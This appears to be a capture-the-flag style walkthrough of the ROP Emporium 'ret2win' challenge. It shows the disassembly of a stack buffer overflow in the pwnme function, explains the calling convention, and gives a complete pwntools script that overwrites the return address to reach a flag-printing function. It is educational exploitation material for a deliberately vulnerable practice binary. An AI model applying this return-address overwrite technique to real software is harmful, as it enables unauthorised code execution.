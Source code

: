 # Challenge 1 - Ret2win

## Disassembly
Let's start by disassembling the binary and start at main:

![main_function](main.png)

As can be seen it prints some information to the screen using puts and then calls pwnme. Let's take a look at pwnme.

![pwnme_function](pwnme.png)

In this function we have a buffer overflow. But how can we see that?

If we look at the first instructions of the function we can see that the function sets up a stack frame:

```C
push rbp        //Save old rbp
mov rbp, rsp    //Save old rsp
sub rsp, 0x20   //Move stack 0x20 further back 
```
This is a stack frame of the size 0x20. The function basically expects that all of the variables on the stack, combined will not exceed 0x20 in size.

If we look further down we can also see that a read call is performed:

```C
lea rax, [buf]
mov edx, 0x38
mov rsi, rax
mov edi, 0
call read
```
This is unnecessarily confusing as the ```lea rax, [buf]``` actually doesn't need to be there and can be replaced by an ```lea rsi [buf]``` so let's clean it up:

```C
mov rdi, 0
lea rsi, [buf]
mov rdx, 0x38
call read
```
To understand exactly what happens here we just need to know a tiny bit about GNU/Linux's calling convention.

## Calling convention

When arguments need to be passed to a function, values for the arguments are passed into the general purpose registers in a specific order (given that they are not floating point numbers). If there are too many arguments for the function, so that we run out of registers for this purpose, the rest are passed on the stack.

The calling convention goes as follows on GNU/Linux:
|Argument no.|Register|
|------------|--------|
|1|RDI|
|2|RSI|
|3|RDX|
|4|RCX|
|5|R8|
|6|r9|
|7..xx|On the stack|

We can then look up the corresponding man page for the function and check what the call would be. In this case it is read:

```
NAME
       read - read from a file descriptor

SYNOPSIS
       #include <unistd.h>

       ssize_t read(int fd, void *buf, size_t count);
```

So the call to read would be: 
```C 
read(0,*buf,0x38);
```

Basically reading 0x38 bytes from file descriptor 0 (stdin) into our buffer on the stack.

By basic math we can see that 0x38 is above 0x20, and therefore we have a buffer overflow.

Now that we are done with the reversing, let's get to the exploitation.

## Exploitation
### Pwntools broilerplate

I'll be using this boilerplate code I've made for pwntools, as my starting point for every exploit in ROPEmporium:
```python
from pwn import *

context.arch = "amd64" #Specify x86-64 architecture

context.terminal = ["konsole","-e"] #Specify that I am using Konsole terminal

#Auto-executing gdbscript for every run
gdbscript = '''
b *main
c
'''

binary = "./ret2win" #Binary name

io = gdb.debug(binary,gdbscript=gdbscript) #Open gdb with our binary executing our gdbscript

#Your
#Code
#Goes
#Here


io.interactive() #Make the binary halt for userinput
```
Runnning this with ```python3 exploit.py``` should open a new window with gdb attached and breaked at main.

The boilerplate can also be found in this folder named boilerplate.py

### Finding the padding

Now that we know we can overflow, we need to find the amount of padding needed before we overflow the return pointer.

We can use pwntools' cyclic function to generate a cyclic pattern of characters we can index through. Then send that to the binary:

```python
padding = cyclic(200)
io.send(padding)
```

We can then run and stop right before we return to check what the top stack value is:

![break_before_return](breakbeforereturn.png)

The value the function is about to return to can be seen in the bottom half of the screen under "STACK". In this case we can see the string ```kaaalaaa```

We can then use pwntools' cyclic_find to adjust our padding, so we can put in the return pointer we are interested in instead of the string ```kaaalaaa```.

I'll be adding the string 'AAAA' so we can see that we now can control the return point

```python
padding = cyclic(200)[:cyclic_find('kaaalaaa')]
io.send(padding + b'AAAA')
```

![aaaa_return](aaaa_return.png)

As we can see under "STACK" the we will now try to return to the address "AAAA" or 0x41414141, we can now successfully control the return pointer

### Where do we want to go?
By looking at the different functions on the left side in Cutter I can see that we have a function called ret2win:

![ret2win_function](ret2infunction.png)

Disassembling it shows us that it calls 
```C 
system("/bin/cat flag.txt");
```

![ret2win_disassm](ret2windisassm.png)

So let's copy that address ```0x00400756``` and try to return to that:

```python
padding = cyclic(200)[:cyclic_find('kaaalaaa')] #find padding
ret2win = p64(0x400756) #ret2win function address packed to bytes so we can send it
io.send(padding+ret2win)
```

We can now see that we will return to the ret2win function:

![ret2win_success](ret2win_success.png)

Pressing continue now starts loading system and we can see in our interactive shell in the other window that a flag has been printed:

![flag](flag.png)

Now we just need to see if it works if we replace gdb.debug with process, and we can get the flag without gdb attached!

Here's the full script:
```python
from pwn import *

context.arch = "amd64" #Specify x86-64 architecture

context.terminal = ["konsole","-e"] #Specify that I am using Konsole terminal

#Auto-executing gdbscript for every run
gdbscript = '''
b *main
c
'''

binary = "./ret2win" #Binary name

#io = gdb.debug(binary,gdbscript=gdbscript)
io = process(binary)

padding = cyclic(200)[:cyclic_find('kaaalaaa')]

ret2win = p64(0x400756) #ret2win function address packed to bytes so we can send it

io.send(padding+ret2win)

io.interactive()
```

And this gives us the flag as well:
```ROPE{a_placeholder_32byte_flag!}```


